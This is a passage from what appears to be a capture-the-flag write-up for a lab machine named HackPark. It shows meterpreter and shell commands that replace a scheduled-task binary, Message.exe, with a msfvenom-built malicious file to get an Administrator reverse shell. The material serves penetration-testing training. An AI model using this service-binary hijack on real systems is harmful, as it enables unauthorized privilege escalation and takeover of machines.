 Navigate to the path C:\Program Files (x86)\SystemScheduler. Now, move the Message.exe file to some other location.

```shell
mv Message.exe C:\Windows
```

Now upload the malicious file that we just created using msfvenom.

```shell
upload Message.exe
```

Keep the current meterpreter session to backround and check the sessions.

```shell
bg

sessions -l
```

We can find a new session opened as the user Administrator.

<img src="{{'/assets/img/images/06.HackPark/26.png' | prepend: site.baseurl }}">

We now got a reverse shell as root!

